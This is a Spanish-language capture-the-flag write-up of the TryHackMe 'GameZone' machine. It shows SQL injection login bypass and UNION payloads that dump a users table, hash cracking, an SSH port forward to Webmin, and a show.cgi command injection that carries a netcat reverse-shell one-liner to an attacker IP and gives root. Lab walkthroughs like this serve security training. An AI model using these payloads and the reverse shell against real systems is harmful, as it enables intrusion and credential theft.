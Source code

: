 ```yaml
---
layout: post
title: GameZone - THM
subtitle: GameZone - THM
tags: [sqli,]
---
```


## Servicio Web 80

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Servicio web 80

![web](../assets/imgs/game/web.png)

Bypaseando el login fzzenado el parámetro user

```
❯ wfuzz -w /usr/share/wordlists/SecLists/Fuzzing/Databases/sqli.auth.bypass.txt -u "http://10.10.149.111/index.php" -X POST -d "username=FUZZ&password=pass&x=17&y=13" -c -t 50 --hh 4517
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.149.111/index.php
Total requests: 96

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000000006:   302        110 L    319 W      4502 Ch     "' or 1=1#"                                                           
000000036:   302        110 L    319 W      4502 Ch     "admin' or '1'='1'#"                                                  
000000040:   302        110 L    319 W      4502 Ch     "admin' or 1=1#"                                                      
000000052:   302        110 L    319 W      4502 Ch     "admin'or 1=1 or ''='"                                                
000000080:   302        110 L    319 W      4502 Ch     "root' or '1'='1'#"                                                   
000000084:   302        110 L    319 W      4502 Ch     "root' or 1=1#"                                                       
000000096:   302        110 L    319 W      4502 Ch     "root'or 1=1 or ''='"
```

![sql](../assets/imgs/game/sql.png)

----

#### SQL error based

![in](../assets/imgs/game/in.png)

base de datos y usuario

```
' union select 1,database(),user()-- -
```

![db](../assets/imgs/game/db.png)

Tablas

```
' union select 1,table_name,3 FROM information_schema.tables WHERE table_schema="db"-- -
```

![tabla](../assets/imgs/gane/tabla.png)

Columnas

```
' union select 1,column_name,3 from information_schema.columns where table_name="users" and table_schema="db"-- -
```

![col](../assets/imgs/game/col.png)


Registro

```
' union select 1,username,pwd from db.users limit 0,1-- -
```

![pass](../assets/imgs/game/pass.png)

Información extraida:

Base de datos: `db`  
Version: `5.7.27-0ubuntu0.16.04.1`  
Cantidad de tablas: `2`  
Tablas: `post,users`  
Cantidad de columnas: `2`  
Columns de users: `username,pwd`  
Usuario: `agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124`

Identificando hash

```
❯ hashid ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14    
Analyzing 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14' 
[+] Snefru-256                                                     
[+] SHA-256                                                                  
[+] RIPEMD-256                                                               
[+] Haval-256                                                                
[+] GOST R 34.11-94                                                          
[+] GOST CryptoPro S-Box                                                     
[+] SHA3-256                                                       
[+] Skein-256                                                                
[+] Skein-512(256)                                                 
```

Cracking

![hash](../assets/imgs/game/hash,png)

### Shell como usuario agent47

```
> ssh agent47@10.10.159.111
```

---

## Escalada de privilegios

Puertos internos abiertos

```
agent47@gamezone:/tmp$ ss -tupln
Netid State      Recv-Q Send-Q                    Local Address:Port                                   Peer Address:Port   
udp   UNCONN     0      0                                     *:10000                                             *:*      
udp   UNCONN     0      0                                     *:68                                                *:*      
tcp   LISTEN     0      80                            127.0.0.1:3306                                              *:*      
tcp   LISTEN     0      128                                   *:10000                                             *:*      
tcp   LISTEN     0      128                                   *:22                                                *:*      
tcp   LISTEN     0      128                      fe80::1%lxdbr0:13128                                            :::*      
tcp   LISTEN     0      128                                  :::80                                               :::*      
tcp   LISTEN     0      128                                  :::22                                               :::*      
```

Remote portForwarding

```
agent47@gamezone:~$ ssh -R 10000:127.0.0.1:10000 noroot@10.9.102.237 -N -f
```

Visitando el puerto 10000 desde el navegaor

![wemin](../assets/imgs/game/webmin.png)

Enumerando la web

```
❯ whatweb http://127.0.0.1:10000
http://127.0.0.1:10000 [200 OK] Cookies[testing], Country[RESERVED][ZZ], HTTPServer[MiniServ/1.580], IP[127.0.0.1], Script[text/javascript], Title[Login to Webmin]
```

Panel de administración usando las crendenciales del usuario `agent47:videogamer124`

![panel](../asets/imgs/game/panel.png)

Exploit:

```
❯ searchsploit -x unix/remote/21851.rb
```

Obteniendo shell

```
http://localhost:10000/file/show.cgi/bin/qwqw2e3e5|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.102.237 4444 >/tmp/f
```

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.149.111] 53438
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# hostname -I 
10.10.149.111 
```










